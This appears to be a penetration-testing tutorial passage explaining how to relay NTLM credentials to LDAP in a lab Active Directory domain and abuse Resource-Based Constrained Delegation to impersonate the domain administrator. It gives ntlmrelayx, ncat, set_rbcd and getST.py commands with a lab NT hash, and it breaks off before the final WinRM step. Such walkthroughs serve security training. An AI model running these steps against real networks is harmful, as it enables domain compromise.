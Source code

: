 

# Attack 3: Relaying to LDAP and Configuring Resource-Based Delegation
In this attack scenario, assume the following conditions are true:

The domain MachineAccountQuota attribute is not at the default value of 10 and/or the SeMachineAccountPrivilege permission is not assigned to the Authenticated Users group, which prevents your ability to add an arbitrary computer object to the domain.
Note on this: If this were not the case, we could execute this entire attack in one ntlmrelayx command via the “–delegate-access” flag, which will attempt to create a new computer account and configure Kerberos Resource-Based Delegation (RBCD) all with a single command. This post I wrote some years back explains this attack in detail—skip down to the Resource-Based Constrained Delegation Section, under “Attack Walkthrough—Scenario 3.”
You previously gained local admin privileges on a domain-joined system and successfully collected LSA secrets, acquiring the NT hash of the computer account in the process.
The goal of this attack is to relay the NTLM credentials of a computer account to the LDAP service on a domain controller and do the following:

Configure Kerberos RBCD by adding our previously compromised computer account to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the relayed computer account.
Obtain a Kerberos Ticket Granting Service (TGS) ticket for a service on the relayed computer account while impersonating a user with local admin privileges.
Use the TGS ticket to gain remote administrative access to the relayed computer.
For more control over exactly what’s happening during this attack, I prefer to use ntlmrelayx’s “interactive mode” as we did before with the MSSQL relay, but this time utilizing LDAP as the protocol. The ntlmrelayx command would be similar to the following:

    ntlmrelayx.py -t ldap://10.2.10.11 -i -6 -wh wpad-lab    

After performing a name resolution spoofing attack in a separate terminal, we receive an incoming HTTP connection from the 10.2.10.21 system and relay the LA-WIN11-22H2-1$ computer account credentials to the LDAP service on 10.2.10.11. Authentication succeeds and an interactive LDAP shell is established on localhost port 11000.

    ntlmrelayx.py -t ldap://10.2.10.11 -i -6 -wh wpad-lab          
    
Next, we interact with the LDAP shell using ncat and list the available commands using the help command.
    
    ncat -n 127.0.0.1 11000
    
    
Assuming that our previously compromised computer account is named LA-SRV01-2019$, we issue the following command to grant that account RBCD privileges over the relayed LA-WIN11-22H1-1$ account:

    set_rbcd LA-WIN11-22H2-1$ LA-SRV01-2019$
    
To move forward with remote code execution and compromising the target system, we’ll use the Impacket getST.py script to obtain a TGS ticket for the WSMAN SPN on behalf of the babysteps\administrator user, which will allow us to connect via WinRM to the target.    
    
    getST.py -impersonate administrator -spn 'WSMAN/LA-WIN11-22H2-1.babysteps.domain' -dc-ip 10.2.10.11 -hashes :62a68d39b231ca68d2f81d8f614c86cc 'babysteps.domain/LA-SRV01-2019$'
    
    
Finally, we configure the KRB5CCNAME environment variable to point to our TGS ticket and utilize evil-winrm to connect to the target as the babysteps\administrator user.    
    